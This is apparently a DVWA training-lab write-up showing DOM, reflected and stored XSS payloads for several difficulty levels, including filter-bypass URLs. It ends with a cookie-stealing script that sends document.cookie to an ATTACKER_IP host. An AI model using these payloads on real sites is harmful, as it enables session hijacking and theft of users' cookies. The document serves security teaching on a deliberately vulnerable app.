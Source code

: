 # XSS DOM/Reflected/Stored - Low/Medium/High/Impossible

## Low/Medium/High

XSS can be executed from the URL `http://192.168.1.23/DVWA/vulnerabilities/xss_d/?default=English<script>alert("test");</script>`. In this case, viewing the page source will not see the script as it is happening in the DOM.  More interestingly, in medium we need to first break out of the select block then add our attack, e.g. `http://localhost/DVWA/vulnerabilities/xss_d/?default=English>/option></select><img src='x' onerror='alert(1)'>`. For high, we can http://localhost/DVWA/vulnerabilities/xss_d/?default=English#<script>alert(1)</script>. to bypass as they whitelisted languages.


The idea would be then to implement something like `<script>img=new Image();img.src="http://ATTACKER_IP/cookiestealer.php?cookie="+document.cookie;</script>` where the attacker is hosting cookiestealer.php included in this folder.

Note that these attacks can be applied to all three categories: DOM, reflected and stored.
